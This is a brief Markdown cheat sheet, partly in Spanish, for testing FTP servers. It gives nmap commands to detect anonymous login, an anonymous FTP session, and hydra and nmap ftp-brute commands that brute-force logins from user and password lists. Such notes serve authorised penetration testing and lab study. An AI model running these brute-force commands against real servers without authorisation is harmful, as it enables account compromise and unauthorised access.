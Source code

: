 ## Anonymous sesion
### Check con nmap
```
nmap IP --script ftp-anon
```
### Sesion
```
ftp IP
> username Anonymous
> password Any Password
```

## Bruteforce login
### Hydra
```
hydra -L UserList -P PassList ftp IP 
```
### Nmap
```
nmap --script ftp-brute --script-args userdb=UserList -p Puerto IP
```
